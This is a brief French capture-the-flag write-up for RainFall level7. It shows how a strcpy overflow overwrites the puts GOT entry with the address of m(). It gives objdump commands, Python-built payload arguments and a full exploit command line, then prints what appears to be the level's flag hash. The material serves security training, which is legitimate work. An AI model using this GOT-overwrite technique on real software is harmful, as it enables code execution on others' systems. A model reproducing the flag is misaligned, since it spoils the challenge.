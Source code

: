 # Analyse du code

La faille a exploiter ici est strcpy qui va permettre de remplacer une fonction par une autre.

# Preparation du payload

- Trouver l'adresse de puts dans la GOT :
	level6@RainFall:~$  objdump -R ./level7  
	08049928 R_386_JUMP_SLOT   puts

- Trouver l'adresse de m() :
	level6@RainFall:~$  objdump -t ./level7  | grep m
	0x080484f4 g     F .text  00000014              m

- Trouver le moment ou la premier inputs ecrasse le deuxieme
	utilisation de ltrace

- Payload :
	1er argrs : $(python -c "print('a' * 20 + '\x28\x99\x04\x08')") 
	2eme args :$(python -c "print('\xf4\x84\x04\x08')")

# Exploit
	./level7  $(python -c "print('a' * 20 + '\x28\x99\x04\x08')") $(python -c "print('\xf4\x84\x04\x08')")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9